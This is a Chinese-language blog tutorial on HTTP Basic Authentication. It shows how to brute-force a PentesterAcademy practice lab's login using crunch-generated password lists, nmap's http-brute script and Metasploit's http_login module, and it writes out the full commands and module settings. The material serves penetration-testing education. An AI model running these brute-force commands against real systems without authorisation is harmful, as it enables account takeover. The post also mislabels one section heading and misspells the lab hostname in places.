 ```yaml
---
layout:     post
title:      暴力破解HTTP身份验证
subtitle:   
date:       2020-01-28
author:     D
header-img: 
catalog: true
mermaid: true
tags:
    - HTTP Basic Authentication
---
```


参考:[Bypass HTTP Basic Authentication with Nmap and Metasploit](https://www.kamranmohsin.com/2017/02/bypass-http-basic-authentication-nmap-metasploit/)

# HTTP身份验证介绍

[HTTP身份验证](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Authentication)是在请求特定web资源时提供用户名和密码的一种方法。<br>
客户端以未加密的base64编码文本的形式发送用户名和密码。

当HTTP接收到对受保护资源的匿名请求时，它可以使用401(拒绝访问)状态码拒绝请求，从而强制使用基本身份验证。

```
HTTP/1.1 401 Access Denied
WWW-Authenticate: Basic realm="Server Results"
Content-Length: 0
```

`WWW-Authenticate` 中的单词 `Basic` 表示用户必须使用Basic身份验证方法来访问受保护的资源。<br>
可以将领域设置为描述特定资源中的安全区域的任何值。

```
GET /protectedfiles/ HTTP/1.1
Host: www.kamranmohsin.com
Authorization: Basic adsadWNoOmY=
```

当成功尝试时，HTTP状态变为 200 OK. `adsadWNoOmY=` 是`basic64`编码版本的用户名和密码。

# 用Nmap绕过HTTP身份验证

绕过可以通过 [Nmap](https://nmap.org/) 来完成. Nmap是一款安全扫描器,它一般用于发现计算机网络上的主机和服务. <br>
Nmap附带了130多个NSE脚本，可以帮助发现网络中几乎所有可能的信息.

想要动手练习,请点击[这里](https://pentesteracademylab.appspot.com/lab/webapp/basicauth). 在链接中提供了绕过身份验证的提示.<br>
对于用户名和密码，在Kali Linux中创建两个单独的文件。我先创建一个目录。<br>
```
mkdir demo
cd demo
vi users.txt
```
将可能的用户名nick, admin写入,users.txt里面保存.当然你也可用网上别人整理好的比如[SecLists](https://github.com/dm116/SecLists).<br>

让我们做一个密码文件，根据提示也就是5个字符，只使用a,s,d小写。密码例子asddd, aassd, ssdaa等。<br>

```
crunch 5 5 asd > pass.txt
```
Crunch命令有助于为蛮力强制进行组合。紧随其后的是5个包含asd的最小或最大字符,结果的组合被保存到pass.txt文件中.

现在使用nmap http-brute命令绕过http基本身份验证,下面是命令:
```
nmap -p 80 --script http-brute --script-args 'http-brute.hostname=pentesteracademy
lab.appspot.com, http-brute.method=POST, http-brute.path=/path/webapp/basicauth, 
userdb=/root/demo/users.txt, passdb=/root/demo/pass.txt' -n -v pentesteracademy
lab.appspot.com
```
我们正在检查端口 `80`，主机名(`http-brute.hostname`)应该是你绕过认证的站点。<br>
`方法`和`路径`应该通过查看登录页面的源页面进行确定。<br>
应该给出`users.txt`和`pass.txt`的完整路径。`-n`表示没有dns, `-v` 表示详细模式,最后要写出网站的名称。<br>

# 用Nmap绕过HTTP身份验证

[Metasploit](https://www.metasploit.com/)有助于发现安全问题，验证漏洞缓解&管理安全评估.<br>

命令如下:<br>
```
msfconsole
```
进入 `msf >` 后<br>
```
search http_login
use auxiliary/scanner/http/http_login
```
进入 `msf5 auxiliary(scanner/http/http_login) >` 后<br>
```
show options
set AUTH_URI /lab/webapp/basicauth
set BLANK_PASSWORDS false
set PASS_FILE /root/demo/pass.txt
set REQUESTTYPE POST
set RHOSTS  pentesteracademylay.appspot.com
set STOP_ON_SUCCESS true
set THREADS 20
set USERNAME admin
set VHOST pentesteracademylay.appspot.com
set USER_FILE ''
set USER_AS_PASS false
set USERPASS_FILE ''
run
```
运行命令后，几分钟内您将获得密码aaddd。<br>
如果在不知道 USERNAME 的情况下需要设置 `USER_FILE`, 上面 `set USER_FILE ''`是设置为空的意思.<br>

# hydra暴力破解HTTP身份验证

链接 [hydra暴力破解HTTP身份验证](https://dm116.github.io/2020/01/27/hydra/)

